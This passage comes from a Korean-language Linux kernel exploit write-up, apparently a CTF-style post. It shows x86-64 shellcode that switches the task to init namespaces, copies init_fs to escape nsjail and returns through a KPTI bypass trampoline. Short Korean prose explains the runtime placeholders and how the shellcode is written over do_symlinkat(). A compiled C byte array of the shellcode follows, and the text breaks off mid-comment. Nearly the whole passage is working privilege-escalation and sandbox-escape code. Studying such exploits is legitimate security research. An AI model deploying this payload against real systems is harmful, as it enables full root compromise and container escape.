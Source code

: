 ```nasm
  call rax

  ; switch_task_namespaces(task, init_nsproxy) [5]
  mov rdi, rax
  lea rsi, [r15 + init_nsproxy]
  lea rax, [r15 + switch_task_namespaces]
  call rax
	
  ; nsjail 탈출
  ; new_fs = copy_fs_struct(init_fs) [6]
  lea rdi, [r15 + init_fs]
  lea rax, [r15 + copy_fs_struct]
  call rax
  mov rbx, rax

  ; current = find_task_by_vpid(getpid())
  mov rdi, 0x1111111111111111   ; will be fixed at runtime
  lea rax, [r15 + find_task_by_vpid]
  call rax

  ; current->fs = new_fs [8]
  mov [rax + 0x740], rbx

  ; kpti trampoline [9]
  xor eax, eax
  mov [rsp+0x00], rax
  mov [rsp+0x08], rax
  mov rax, 0x2222222222222222   ; win
  mov [rsp+0x10], rax
  mov rax, 0x3333333333333333   ; cs
  mov [rsp+0x18], rax
  mov rax, 0x4444444444444444   ; rflags
  mov [rsp+0x20], rax
  mov rax, 0x5555555555555555   ; stack
  mov [rsp+0x28], rax
  mov rax, 0x6666666666666666   ; ss
  mov [rsp+0x30], rax
  lea rax, [r15 + kpti_bypass]
  jmp rax

  int3
```

이때 `0x1111…`, `0x2222…` 같은 값들은 실제로 exploit이 실행될 때 바꾸기 위해 넣어놓은 placeholder이다. 
아무 값이나 사용해도 되지만 다른 opcode와 겹치면 안 되기 때문에 독특한 값을 넣어두어야 한다. 
이를 컴파일한 후 맞게 바꿔주고, `do_symlinkat()`을 쉘코드로 잘 덮어준 후 호출하면 된다.

```c
char shellcode[] = {0xf3, 0x0f, 0x1e, 0xfa, 0xe8, 0x00, 0x00, 0x00, 0x00, 0x41, 0x5f, 0x49, 0x81, 0xef, 0xc9, 0xd4, 0x24, 0x00, 0x49, 0x8d, 0xbf, 0xd8, 0x5e, 0x44, 0x01, 0x49, 0x8d, 0x87, 0x20, 0xe6, 0x0a, 0x00, 0xff, 0xd0, 0xbf, 0x01, 0x00, 0x00, 0x00, 0x49, 0x8d, 0x87, 0x50, 0x37, 0x0a, 0x00, 0xff, 0xd0, 0x48, 0x89, 0xc7, 0x49, 0x8d, 0xb7, 0xe0, 0x5c, 0x44, 0x01, 0x49, 0x8d, 0x87, 0x40, 0xc1, 0x0a, 0x00, 0xff, 0xd0, 0x49, 0x8d, 0xbf, 0x48, 0x82, 0x53, 0x01, 0x49, 0x8d, 0x87, 0x90, 0xf8, 0x27, 0x00, 0xff, 0xd0, 0x48, 0x89, 0xc3, 0x48, 0xbf, 0x11, 0x11, 0x11, 0x11, 0x11, 0x11, 0x11, 0x11, 0x49, 0x8d, 0x87, 0x50, 0x37, 0x0a, 0x00, 0xff, 0xd0, 0x48, 0x89, 0x98, 0x40, 0x07, 0x00, 0x00, 0x31, 0xc0, 0x48, 0x89, 0x04, 0x24, 0x48, 0x89, 0x44, 0x24, 0x08, 0x48, 0xb8, 0x22, 0x22, 0x22, 0x22, 0x22, 0x22, 0x22, 0x22, 0x48, 0x89, 0x44, 0x24, 0x10, 0x48, 0xb8, 0x33, 0x33, 0x33, 0x33, 0x33, 0x33, 0x33, 0x33, 0x48, 0x89, 0x44, 0x24, 0x18, 0x48, 0xb8, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x48, 0x89, 0x44, 0x24, 0x20, 0x48, 0xb8, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x48, 0x89, 0x44, 0x24, 0x28, 0x48, 0xb8, 0x66, 0x66, 0x66, 0x66, 0x66, 0x66, 0x66, 0x66, 0x48, 0x89, 0x44, 0x24, 0x30, 0x49, 0x8d, 0x87, 0x41, 0x0f, 0xc0, 0x00, 0xff, 0xe0, 0xcc};
void *p;

// 쉘코드 짤 때 넣어놨던 임시 값들을
```

[^1]: 한 파일에 대해서 65535개까지의 file descriptor를 가질 수 있기 때문이다.